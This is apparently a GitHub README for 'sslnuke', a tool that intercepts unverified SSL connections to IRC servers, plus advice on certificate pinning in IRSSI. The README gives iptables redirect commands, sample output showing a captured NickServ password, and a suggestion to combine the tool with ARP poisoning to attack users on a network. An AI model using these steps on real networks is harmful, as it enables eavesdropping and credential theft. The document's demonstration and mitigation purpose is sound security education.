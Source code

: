 # sslnuke -- SSL without verification isn't secure!
--------------------------------------

We have all heard over and over that SSL without verification is not secure. 
If an SSL connection is not verified with a cached certificate, it can easily be
hijacked by any attacker. So in 2013, one would think we had totally done away with this
problem. Browsers cache certificates and very loudly warn the user when a site has
offered up a self-verified certificate and should not be trusted, browser vendors have
pretty much solved this problem. However, HTTPS is not the only protocol that uses
SSL. Unfortunately, many clients for these other protocols do not verify by default and even
if they did, there is no guarantee of secure certificate transfer. After all, how many 
people are willing to pay $50 for an SSL certificate for their FTPS server? 

A common protocol that uses SSL but is rarely verified is IRC. Many IRC clients
verify by default, but most users will turn this off because IRC servers administrators
tend not to purchase legitimate SSL certificates. Some popular clients even leave
SSL verification off by default (IRSSI, for example). We already know that this is 
unwise, any attacker between a user and the IRC server can offer an invalid
certificate and decrypt all of the user's traffic (including possibly sensitive
messages). Most users don't even consider this fact when connecting to an
SSL "secured" IRC server. 

The purpose of sslnuke is to write a tool geared towards decrypting and intercepting
"secured" IRC traffic. There are plenty of existing tools that intercept SSL traffic already,
but most of these are geared towards HTTP traffic. sslnuke targets IRC directly in order to 
demonstrate how easy it is to intercept "secured" communications. sslnuke usage is simple.

## Usage

First, add a user account for sslnuke to run as and add iptables rules to redirect traffic
to it:

    # useradd -s /bin/bash -m sslnuke
    # grep sslnuke /etc/passwd
    sslnuke:x:1000:1000::/home/sslnuke:/bin/bash
    # iptables -t nat -A OUTPUT -p tcp -m owner ! --uid-owner 1000 -m tcp \
      --dport 6697 --tcp-flags FIN,SYN,RST,ACK SYN -j REDIRECT --to-ports 4444

Finally, login as sslnuke, build, and run sslnuke:

    # su -l sslnuke
    # cd sslnuke
    # make
    # ./sslnuke

Run an IRC client and login to your favorite IRC network using SSL,
IRC messages will be printed to stdout on sslnuke.

    [*] Received connection from: 192.168.0.5:58007
    [*] Opening connection to: 1.1.1.1:6697
    [*] Connection Using SSL!
    [*] irc.com -> AUTH (1.1.1.1): *** Looking up your hostname...
    [*] irc.com -> AUTH (1.1.1.1): *** Found your hostname
    [*] irc.com -> victim (1.1.1.1): *** You are connected to irc.vps-heaven.com with TLSv1.2-AES256-GCM-SHA384-256bits
    [*] 192.168.0.5 -> nickserv (192.168.0.5): id hello
    [*] NickServ!services@irc.com -> victim (1.1.1.1): Password accepted - you are now recognized.

sslnuke will automatically detect a client using SSL and determine whether or not
to use SSL. The code could also be easily modified to show web site passwords or
FTP data, anything using SSL. To attack users on a network, sslnuke can be used
in conjunction with an ARP poisoning tool, such as the one found at [Blackhat Library](http://www.blackhatlibrary.net/Python#Scapy)
or it can be deployed on a gateway.

## Mitigation

Now on to the important part, how do we verify SSL connections? The first step is to
transfer the SSL certificate over an alternative medium, the best way would be to
have the administrator directly give you the certificate. However, if this is not possible,
openssl can download the certificate from the server:

    # openssl s_client -showcerts -connect irc.com:6697 </dev/null

Save the certificate into ~/.irssi/ssl/irc.com.crt. It is best to run the command from a 
computer on a different network than yours to prevent this from being intercepted. Next, to
configure IRSSI to use the certificate, save a network:

    /network add irc
    /server add -ssl_cafile ~/.irssi/ssl/irc.com.crt -network irc -port 6697 irc.com

If IRSSI ever gets an invalid certificate, it will warn you and disconnect immediately. However,
for the truly paranoid, a Tor hidden service or VPN should be used. To configure automatic
Tor hidden service redirection on Linux one can run the following commands:

    # echo "VirtualAddrNetwork 10.192.0.0/10" >> /etc/tor/torrc
    # echo "AutomapHostsOnResolve 1" >> /etc/tor/torrc
    # echo "TransPort 9040" >> /etc/tor/torrc
    # echo "DNSPort 5353" >> /etc/tor/torrc
    # killall -HUP tor
    # iptables -t nat -A OUTPUT -p tcp -d 10.192.0.0/10 -j REDIRECT --to-ports 9040
    # iptables -t nat -A OUTPUT -p udp --dport 53 -j REDIRECT --to-ports 5353
    # ncat xxxxxxxxxxxxxxx.onion 6667
    :irc.com NOTICE AUTH :*** Looking up your hostname...
    :irc.com NOTICE AUTH :*** Couldn't resolve your hostname; using your IP address instead
    ^C

Ultimately, IRC clients should use an SSH-style key verification. On first connect, present the
certificate fingerprint to the user and force the user to confirm it and then cache the certificate.
If it changes the next time, do not allow the connection.

## Source

The source code can be downloaded on [Github](https://github.com/jtripper/sslnuke).

